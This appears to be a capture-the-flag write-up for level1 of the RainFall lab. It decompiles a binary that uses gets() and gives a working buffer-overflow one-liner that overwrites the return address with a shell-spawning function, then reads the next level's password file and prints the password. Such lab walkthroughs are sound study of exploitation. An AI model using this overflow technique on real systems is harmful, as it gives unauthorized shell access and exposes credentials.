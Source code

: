 1. here we go the password to the next level ssh to level1 we found:

```bash
level1@RainFall:~$ ls
level1
level1@RainFall:~$ 
```

ghidra shows :

```bash
void main(void)
{
char local_50 [76];

gets(local_50);
return;
}
```

the programe expect a 76 length char input using gets then return there is a function in the programe named run () at 08048444:

```bash
08048444    int32_t run()

0804846d        fwrite(buf: "Good... Wait what?\n", size: 1, count: 0x13, fp: stdout)
0804847f        return system(line: "/bin/sh")
```

it return  return system(line: "/bin/sh") we got to run is

\-> overflow fill the buffer + the run adress  and pass command that hand on the /bin/sh sense it return it :

```bash
level1@RainFall:~$ (python -c "print('A'*76 + '\x44\x84\x04\x08')"; cat) | ./level1 
Good... Wait what?
cd ..
cd level2
cat .pas*       
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

here is the next level code :

53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77